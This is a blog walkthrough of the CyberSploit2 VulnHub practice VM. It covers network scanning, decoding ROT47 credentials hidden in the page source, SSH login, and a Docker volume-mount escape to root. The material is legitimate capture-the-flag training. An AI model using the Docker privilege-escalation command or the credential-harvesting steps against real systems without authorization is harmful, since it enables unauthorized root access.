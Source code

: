 ```yaml
---
title: "Boot 2 Root : Cybersploit 2 VulnHub Walkthrough"
description: 
date: 2025-01-21
categories: [CTF, VulnHub]
tags: [vulnhub, ctf, walkthrough]
permalink: /cybersploit-2-vulnhub-walkthrough/
image:  
  path: /assets/img/thumbnails/cybersploit2.png
---
```


# Introduction

Welcome to this detailed guide on gaining root access on the **CyberSploit2** virtual machine (VM). This walkthrough is tailored to help penetration testers sharpen their skills through methodical exploration and exploitation. Unlike typical Capture the Flag (CTF) challenges, **CyberSploit2** offers a unique experience without predefined flags, making your journey from boot to root more intriguing.

## VM Information

For the best experience, it is recommended to use **VirtualBox** over VMware to run the CyberSploit2 VM. Below are the essential details to help you get started:

- **Filename**: CyberSploit2.ova
- **File Size**: 1.2 GB
- **MD5**: 8D95C1FE6D20F1FBF2B6A0B1DF7321FA
- **SHA1**: 9BCF57492328A71A1C1CE0A8F7ACB801CAF035D8
- **Download Link**: [CyberSploit2.ova](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

Ensure that you have CyberSploit1 set up as it is referenced during the boot process. You can follow the setup guide for CyberSploit1 [here](https://neospl0it.github.io/cybersploit-1-vulnhub-walkthrough/#starting-up-the-vm).

### Booting Up the VM

Upon starting the CyberSploit2 VM, you will encounter a boot screen:

![Boot Screen](/assets/img/bposts/cybersploit-2-walkthrough/boot-screen.png)

## Initial Reconnaissance

### ARP Scan to Locate the Machine

The first step in your reconnaissance involves conducting an ARP scan to identify the IP address of the VM within your network:

```bash
root@neo ~# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:xx:xx:xx, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.5  08:00:27:ef:ed:19  PCS Systemtechnik GmbH

1 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 1 responded
```

The machine is located at **192.168.1.5**.

### Nmap Scan for Open Ports

Next, perform an **Nmap** scan to discover available services:

```bash
root@neo ~# nmap -sN -sC 192.168.1.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 19:58 IST
Nmap scan report for 192.168.1.5
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE         SERVICE
22/tcp open|filtered ssh
| ssh-hostkey:
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open|filtered http
|_http-title: CyberSploit2
| http-methods:
|_  Potentially risky methods: TRACE
MAC Address: 08:00:27:EF:ED:19 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.74 seconds
```

The scan reveals that ports **22 (SSH)** and **80 (HTTP)** are open.

## Exploiting the HTTP Service

### Analyzing the Web Page

Navigate to the web page hosted on port 80.

![Web Page](/assets/img/bposts/cybersploit-2-walkthrough/browser-img.png)

The page contains text with some characters appearing differently. Inspecting the page source reveals an encoded string using **ROT47**:

![Source Code](/assets/img/bposts/cybersploit-2-walkthrough/source-code.png)

### Decoding ROT47

Use the following command to decode the ROT47 string:

```bash
root@neo ~# echo 'D92:=6?5C2' | tr '!-~' 'P-~!-O'
shailendra
root@neo ~# echo '4J36CDA=@:E`' | tr '!-~' 'P-~!-O'
cybersploit1
```

Alternatively, you can use CyberChef for decoding. The retrieved credentials are:

- **Username**: shailendra
- **Password**: cybersploit1

## Gaining SSH Access

Use the acquired credentials to log in via SSH:

```bash
root@neo ~# ssh shailendra@192.168.1.5
The authenticity of host '192.168.1.5 (192.168.1.5)' can't be established.
ED25519 key fingerprint is SHA256:Ua5bYFU7jRE2PNF3w1hs2yrzHmyU7Q3FWj0xvMKZDro.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.5' (ED25519) to the list of known hosts.
shailendra@192.168.1.5's password:
Last login: Wed Jul 15 12:32:09 2020
[shailendra@localhost ~]$
```

### Escalating Privileges

Upon successful login, list the files in the home directory to find hints:

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
```

The hint indicates that Docker can be exploited for privilege escalation.

### Exploiting Docker for Root Access

Refer to **[GTFOBins](https://gtfobins.github.io/)** for Docker exploits that can break out of restricted environments:

![GTFOBins](/assets/img/bposts/cybersploit-2-walkthrough/gtfobins.png)

Using Docker to spawn an interactive system shell, execute the following command to gain root access:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
1f3e46996e29: Pull complete
Digest: sha256:56fa17d2a7e7f168a043a2712e63aed1f8543aeafdcee47c58dcffe38ed51099
Status: Downloaded newer image for alpine:latest
sh-4.4# whoami
root
```

### Retrieving the Flag

Navigate to the root directory and retrieve the flag:

```bash
sh-4.4# cd /root
sh-4.4# ls
anaconda-ks.cfg  flag.txt  get-docker.sh  logs}
sh-4.4# cat flag.txt
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (`
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_)

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks !
sh-4.4#
```

Congratulations! You have successfully rooted the CyberSploit2 VM.